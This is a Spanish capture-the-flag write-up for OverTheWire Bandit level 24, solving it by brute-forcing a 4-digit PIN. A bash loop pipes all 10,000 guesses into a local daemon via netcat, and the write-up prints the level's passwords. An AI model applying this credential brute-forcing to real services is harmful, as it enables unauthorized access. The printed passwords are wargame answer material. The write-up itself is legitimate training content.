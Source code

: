 # Bandit

## Objetivo
Un demonio está escuchando en el puerto 30002 y le dará la contraseña de bandit25 si se le proporciona la contraseña de bandit24 y un código PIN numérico secreto de 4 dígitos. No hay forma de recuperar el código PIN, excepto pasando por todas las 10000 combinaciones, lo que se conoce como fuerza bruta.
## Datos de acceso
Usuario: bandit24
Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
## Solucion
```shell
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 6666Timeout. Exiting.

bandit24@bandit:~$ echo {0000..0005}
0000 0001 0002 0003 0004 0005

bandit24@bandit:~$ echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar {0000..0005}
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000 0001 0002 0003 0004 0005

bandit24@bandit:~$ for i in {0000..0005}; do echo 

VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0001
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0002
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0003
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0004
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0005

bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 

I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
^C

bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.

```
## Notas adicionales
Con grep -v Wrong! podemos filtrar los resultados incorrectos en un for.

Tambien con echo {0000..0005} podemos crear secuencias de 4 numeros teniendo rango de 0000 a 0005 (usando el echo {0000..0005}).
## Referencias

